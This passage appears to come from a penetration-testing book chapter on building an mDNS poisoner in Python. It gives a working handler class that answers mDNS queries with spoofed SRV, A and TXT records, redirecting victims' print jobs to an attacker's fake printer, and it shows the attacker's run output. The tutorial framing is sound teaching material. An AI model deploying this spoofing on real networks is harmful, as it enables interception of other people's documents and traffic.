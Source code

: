````The `MDNS_poisoner` function 3 creates an instance of the `UDP_server` and calls `serve_forever` on it to handle requests until an explicit shutdown. The `MDNS`class handles all incoming requests, parsing them and sending back the replies. Because this class is the brainpower of the poisoner, we’ll explore the class in more detail later. You’ll have to replace this block of code (Listing 6-3) with the complete `MDNS` class in Listing 6-2.    The `main`function 4 creates the main thread for the mDNS server. This thread will automatically start new threads for each request, which the `MDNS.handle` function will handle.With`setDaemon(True)`, the server will exit when the main thread terminates, and you can terminate the main thread by pressing CTRL-C, which will trigger the `KeyboardInterrupt` exception. The main program will finally enter an infinite loop, and the threads will handle all the rest.    Now that we’ve created the skeleton, let’s outline the methodology for creating the `MDNS` class, which implements the mDNS poisoner:    1.  1. Capture network traffic to determine which packets you need to reproduce and save the *pcap* file for later. 2.  2. Export the raw packet bytes from Wireshark. 3.  3. Search for libraries implementing existing functionality, such as dnslib for the DNS packet handling, so you don’t reinvent the wheel. 4.  4. When you need to parse incoming packets, as is the case with the mDNS query, first use the previously exported packets from Wireshark to initially feed into the tool instead of getting new ones from the network. 5.  5. Start sending packets on the network, and then compare them with the first traffic dump. 6.  6. Finalize and refine the tool by cleaning up and commenting code, as well as adding real-time configurability via command line arguments.    Let’s see what our most important class, `MDNS`, does (Listing 6-3). Replace the `MDNS` block in Listing 6-2 with this code.    ``` class MDNS(BaseRequestHandler):   def handle(self):     target_service = ''     data, soc = self.request 1     d = DNSRecord.parse(data) 2      # basic error checking - does the mDNS packet have at least 1 question?     if d.header.q < 1:       return      # we are assuming that the first question contains the service name we want to spoof     target_service = d.questions[0]._qname 3      # now create the mDNS reply that will contain the service name and our IP address     d = DNSRecord(DNSHeader(qr=1, id=0, bitmap=33792)) 4     d.add_answer(RR(target_service, QTYPE.SRV, ttl=120, rclass=32769, rdata=SRV(priority=0, target='kali.local', weight=0, port=8000)))     d.add_answer(RR('kali.local', QTYPE.A, ttl=120, rclass=32769, rdata=A("192.168.10.10"))) 5     d.add_answer(RR('test._ipps._tcp.local', QTYPE.TXT, ttl=4500, rclass=32769, rdata=TXT(["rp=ipp/print", "ty=Test Printer", "adminurl=https://kali:8000/ipp/print", "pdl=application/pdf,image/jpeg,image/pwg-raster", "product=(Printer)", "Color=F", "Duplex=F", "usb_MFG=Test", "usb_MDL=Printer", "UUID=0544e1d1-bba0-3cdf-5ebf-1bd9f600e0fe", "TLS=1.2", "txtvers=1", "qtotal=1"]))) 6      soc.sendto(d.pack(), MADDR) 7     print('Poisoned answer sent to %s for name %s' % (self.client_address[0], target_service)) ```    Listing 6-3: The final `MDNS` class for our poisoner    We’re using Python’s `socketserver` framework to implement the server. The `MDNS` class has to subclass the framework’s `BaseRequestHandler` class and override its `handle()` method to process incoming requests. For UDP services, `self.request` 1 returns a string and socket pair, which we save locally. The string contains the data incoming from the network, and the socket pair is the IP address and port belonging to the sender of that data.    We then parse the incoming `data` using `dnslib` 2, converting them into a `DNSRecord` class that we can then use to extract the domain name 3 from the `QNAME` of the Question section. The Question section is the part of the mDNS packet that contains the Queries (for example, see Figure 6-7). Note that to install `dnslib`, you can do the following:    ``` # **git clone https://github.com/paulc/dnslib** # **cd dnslib** # **python setup.py install** ```    Next, we must create our mDNS reply 4 containing the three DNS records we need (SRV, A, and TXT). In the Answers section, we add the SRV record that associates the `target_service` with our hostname (`kali.local`) and port 8000\. We add the A record 5 that resolves the hostname to the IP address. Then we add the TXT record 6 that, among other things, contains the URL for the fake printer to be contacted at https://kali:8000/ipp/print.    Finally, we send the reply to the victim through our UDP socket 7.    As an exercise, we leave it to you to configure the hardcoded values contained in the mDNS reply step. You could also make the poisoner more flexible so it poisons a specific target IP and service name only.    #### Testing the mDNS Poisoner    Now let’s test the mDNS poisoner. Here is the attacker’s poisoner running:    ``` root@kali:~/mdns/poisoner# **python****3** **poison.py** Listening for mDNS multicast traffic Poisoned answer sent to 192.168.10.199 for name _universal._sub._ipp._tcp.local. Poisoned answer sent to 192.168.10.219 for name test._ipps._tcp.local. Poisoned answer sent to 192.168.10.199 for name _universal._sub._ipp._tcp.local. ```    We try to automatically grab the print job from the victim client, getting it to connect to us instead of the real printer by sending seemingly legitimate mDNS traffic. Our mDNS poisoner replies to the victim client 192.168.10.199, telling it that the attacker holds the `_universal._sub._ipp._tcp.local` name. The mDNS poisoner also tells the legitimate printer server (192.168.10.219) that the attacker holds the `test._ipps._tcp.local` name.    Remember that this is the name that the legitimate print server was advertising. Our poisoner, a simple proof of